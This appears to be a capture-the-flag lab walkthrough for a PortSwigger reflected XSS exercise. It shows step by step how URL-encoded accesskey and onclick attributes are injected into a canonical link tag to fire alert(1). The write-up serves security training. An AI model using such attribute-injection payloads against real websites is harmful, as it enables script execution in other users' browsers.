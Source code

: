 # Reflected XSS in canonical link tag

## This lab reflects user input in a canonical link tag and escapes angle brackets.

## To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack on the home page that injects an attribute that calls the `alert` function.

## To assist with your exploit, you can assume that the simulated user will press the following key combinations:

- `ALT+SHIFT+X`
- `CTRL+ALT+X`
- `Alt+X`

## Please note that the intended solution to this lab is only possible in Chrome.

### HINT:

```javascript
<link rel="canonical" accesskey="X" onclick="alert(1)" />
```

step1
click on home page and open source code

`<link rel="canonical" href='https://0ad500d9046781128056a8ff005b008e.web-security-academy.net/'/>`

![screenshot](images/lab20_canonical_link.jpg)

stpe 2

add accesskey="X"
`https://0ad500d9046781128056a8ff005b008e.web-security-academy.net/?%20accesskey=%22X%22`
%20 for space

### step3

URL Encoding Reference ' = %27
'accesskey='x'onclick='alert(1)'
%27accesskey=%27x%27onclick=%27alert(1)

![screenshot](images/lab20_accesskey_alert.jpg)

### step4

remove view-source: from url
and press alt + x
![screenshot](images/lab20_alt_plus_x_key.jpg)
